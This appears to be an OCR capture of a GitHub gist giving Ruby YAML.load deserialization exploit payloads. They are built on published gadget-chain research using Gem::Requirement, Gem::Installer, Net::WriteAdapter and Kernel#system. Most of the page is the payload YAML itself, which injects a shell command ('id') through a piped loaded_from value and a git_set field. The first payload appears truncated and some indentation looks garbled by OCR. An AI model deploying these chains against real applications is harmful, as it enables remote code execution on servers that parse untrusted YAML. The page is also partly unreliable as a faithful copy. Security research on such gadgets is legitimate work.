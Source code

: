 

Based on excellent write-up from https://www.elttam.com.au/blog/ruby-deserialization/

Doesn't work to use YAML.dump(payload) in the above script. This only produces the following YAML, which is worthless:

--- !ruby/object:Gem::Requirement
requirements:
- - ">="
  - !ruby/object:Gem::Version
    version: '0'

This is just a handcrafted conversion of the serialization done by Marshal.dump


Second version is based on the more recent and equally excellent writup from https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
ruby_yaml_load_sploit.yaml
```
--- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source::SpecificFile
    spec: &1 !ruby/object:Gem::StubSpecification
      loaded_from: "|id 1>&2"
  - !ruby/object:Gem::Source::SpecificFile
      spec:
ruby_yaml_load_sploit2.yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
         
 ```        
